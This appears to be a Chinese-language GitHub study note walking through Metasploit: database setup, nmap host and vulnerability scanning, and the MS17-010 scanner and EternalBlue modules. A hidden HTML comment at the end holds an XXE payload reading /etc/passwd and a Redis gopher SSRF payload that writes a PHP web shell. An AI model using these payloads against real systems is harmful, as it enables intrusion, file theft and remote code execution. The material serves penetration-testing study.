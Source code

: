 
```diff
+ green color text
- red color text
```

+ 進入metasploit
  - msfdb init : 初始化數據庫 (若沒執行這行，連接數據庫會有問題)
  - msfconsole : 啟動
  - workspace : 當前工作區
  - db_status :　是否成功連接到數據庫
  - workspace -a meow :　另創一個數據庫meow
  - ? : 通過?查看當前工作區可以使用的指令
  
![image](https://user-images.githubusercontent.com/96654161/170452994-0fe2ddb7-384f-4459-ac3f-a124c83b3922.png)

+ 信息蒐集 -> 內網主機發現
  - db_nmap : nmap掃描
    - -PA : TCP ACK PING掃描
    - -PS : TCP SYN PING掃描
    - -PR : ARP掃描nmap對目標進行arp ping掃描的過程，尤其在內網的情況下。因為防火牆不會禁止ARP請求
    - hosts : 列出當前工作區所有主機
    
  - 1.ifconfig 查看當前哪些主機存活
  - 2.db_nmap -PR IP/24
  
![image](https://user-images.githubusercontent.com/96654161/170454550-ace64ee5-bc5b-441c-9a1f-336568b2abd2.png)

     -T[0-5] : 莫認為T3、T4表示最大TCP掃描延遲為10ms
     sS : TCP SYN掃描
     sA : TCP ACK掃描
     sY : TCP SYN掃描
     A : 打開操作系統探測和版本探測
 
  - db_nmap -sS -A -T4 192.168.xx.x
![image](https://user-images.githubusercontent.com/96654161/170462660-3b86cb80-6cd1-4b8b-845f-fccd63797fb7.png)

  - db_nmap --script=vuln IP
    - script=vuln : 檢查是否具有常見漏洞
![image](https://user-images.githubusercontent.com/96654161/170464782-26acc2ae-f016-4e50-a663-93dcd80ac177.png)
>這裡找到ms17_010

+ auxiliary 模塊
  - search ms17_010
 
![image](https://user-images.githubusercontent.com/96654161/170476395-67b42a48-a313-4595-aaac-7a59570dcdbd.png)
>這裡看到第三項，描述的是for win8，但在前面掃描OS是win7所以不適用

  - info auxiliary/scanner/smb/smb_ms17_010

![image](https://user-images.githubusercontent.com/96654161/170468777-31bd8a4c-e86d-4584-a37c-e2f938d267c9.png)

  - use auxiliary/scanner/smb/smb_ms17_010 #要使用某模塊都用 use modules
  - options 查看設置 ->required 如果是yes就必須要配置
![image](https://user-images.githubusercontent.com/96654161/170471161-04096171-0096-4c96-92e6-fc5cc911859c.png)

  - set RHOSTS 掃描主機IP
  - run / exploit 執行
![image](https://user-images.githubusercontent.com/96654161/170472589-93bc1135-7785-47a5-b28e-c4e3d361b9fe.png)

+ use exploit/windows/smb/ms17_010_eternalblue
+ options
+ 









<!---
XXE 
<!DOCTYPE kaibro[
       <!ENTITY xxe SYSTEM "file:///etc/passwd">
     ]>
     <root>&xxe;</root>
     
 SSRF gopher     
 gopher://localhost:6379/_FLUSHALL%0d%0aSET%20kaibro%20"<%3F=system($_GET[1]);%3F>"%0d%0aCONFIG%20SET%20DIR%20/www/%0d%0aCONFIG%20SET%20DBFILENAME%20ggininder123.php%0d%0aSAVE%0d%0aQUIT

-->
